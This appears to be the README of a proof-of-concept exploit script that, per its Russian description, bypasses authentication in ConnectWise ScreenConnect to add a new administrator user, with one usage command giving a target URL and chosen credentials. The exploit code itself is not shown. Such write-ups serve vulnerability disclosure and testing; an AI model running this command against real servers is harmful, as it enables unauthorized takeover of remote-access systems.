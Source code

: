 Обход аутентификации для добавления нового пользователя-администратора в ConnectWise ScreenConnect.

# Usage:
```md
python watchtowr-vs-ConnectWise_2024-02-21.py --url http://localhost --username hellothere --password admin123!
```
